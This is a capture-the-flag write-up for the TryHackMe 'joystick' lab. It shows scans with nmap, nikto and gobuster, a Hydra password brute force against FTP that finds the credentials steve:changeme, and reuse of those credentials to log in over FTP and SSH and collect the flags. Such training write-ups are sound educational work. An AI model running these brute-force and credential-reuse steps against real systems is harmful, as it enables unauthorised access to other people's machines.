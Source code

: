 # joystick CTF

IP = 10.10.142.101

## nmap
```
~/CTF/tryhackme/joystick$ nmap -sC -sV -A 10.10.142.101
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-06 09:21 BST
Nmap scan report for 10.10.142.101
Host is up (0.040s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c7:ce:5d:fa:24:68:3a:10:63:f9:28:1b:f4:6d:e5:bc (RSA)
|   256 6b:7b:f5:12:e0:db:bb:b0:ca:f8:f8:c0:84:bc:27:e6 (ECDSA)
|_  256 1b:d4:20:23:d0:5b:32:16:ad:c2:a9:cd:99:1c:e6:6e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: JoyStick Gaming
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.05 seconds

```
So we see that we have three ports open, 21, 22 and 80.

## nikto
```
~/CTF/tryhackme/joystick$ nikto  -h 10.10.142.101
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.142.101
+ Target Hostname:    10.10.142.101
+ Target Port:        80
+ Start Time:         2020-08-06 09:21:45 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 23c, size: 58814a0eea52b, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7889 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2020-08-06 09:29:03 (GMT1) (438 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```
Nothing really jumps out with this report.

## gobuster

```
~/CTF/tryhackme/joystick$ gobuster dir -u 10.10.142.101 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.142.101
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/06 10:23:44 Starting gobuster
===============================================================

```

Again not much of interest here.

## website enumeration

Pretty a blank webpage so lets check out the source.

```
<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title>JoyStick Gaming</title>
  </head>
  <body>
    <p>JoyStick gaming minecraft server, open shortly to the public!</p>
    <!-- Zach, I don't care that you named your user steve. You still need to
      finish making the website -->
    <!-- Great, and now the FTP server just doesn't work. Just another great idea after
	your failed irc chat. Why would we use that when we have in game chat? 
	Not to mention that I know you still haven't reset your password.  -->
  </body>
</html> 
```
Looks like we have possible usernames - steve and maybe zach. With Steve not changing his password it could be a simple easy to crack one. Lets try hydra for ftp first.

## hydra ftp
```
~/CTF/tryhackme/joystick$ hydra -l steve -P /usr/share/wordlists/rockyou.txt ftp://10.10.142.101
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-06 09:33:08
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.142.101:21/
[STATUS] 201.00 tries/min, 201 tries in 00:01h, 14344198 to do in 1189:25h, 16 active
[STATUS] 206.33 tries/min, 619 tries in 00:03h, 14343780 to do in 1158:38h, 16 active
[STATUS] 204.57 tries/min, 1432 tries in 00:07h, 14342967 to do in 1168:33h, 16 active
[STATUS] 221.15 tries/min, 3321 tries in 00:15h, 14341078 to do in 1080:47h, 16 active
[21][ftp] host: 10.10.142.101   login: steve   password: changeme
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-06 09:50:44

```
So after a cup of tea we have the username and password. Lets check out the FTP.

```
ftp 10.10.142.101
Connected to 10.10.142.101.
220 (vsFTPd 3.0.3)
Name (10.10.142.101:): steve
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Desktop
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Documents
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Downloads
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Music
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Pictures
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Public
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 SteveStuff
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Templates
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Videos
-rw-r--r--    1 ftp      ftp          8980 May 03  2019 examples.desktop
-rw-rw-r--    1 ftp      ftp        589485 May 03  2019 snes.png
-rw-r--r--    1 ftp      ftp            19 May 03  2019 user.txt
```
I also had a look at the actual home directory and find we have two other users.
```
tp> pwd
257 "/home/steve" is the current directory
ftp> cd ..
250 Directory successfully changed.
ftp> pwd
257 "/home" is the current directory
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    4 ftp      ftp          4096 May 04  2019 minecraft
drwxr-xr-x   18 ftp      ftp          4096 May 04  2019 notch
drwxr-xr-x   17 ftp      ftp          4096 May 04  2019 steve
226 Directory send OK.
ftp> 

```
Looking at Steve's home directory we can see the user.txt for the flag. 

I did try the anonymous access to the FTP but it errored.

```
~/CTF/tryhackme/joystick$ ftp 10.10.142.101
Connected to 10.10.142.101.
220 (vsFTPd 3.0.3)
Name (10.10.142.101:): anonymous
500 OOPS: vsftpd: refusing to run with writable root inside chroot()
```
I did some research on this and it appears that the ftp structure that we are trying to access is set to writeable.

I then thought that if the FTP has been set up incorrectly, that I may be able to fully access the file structure from the browser. This I was able to do but for the life of me I can't replicate it, though I was able to get the root flag as it was in the notch folder.

Checking with the username and password I also tried it on SSH and it worked.

My second completed - on my own!!

I must be getting better :)
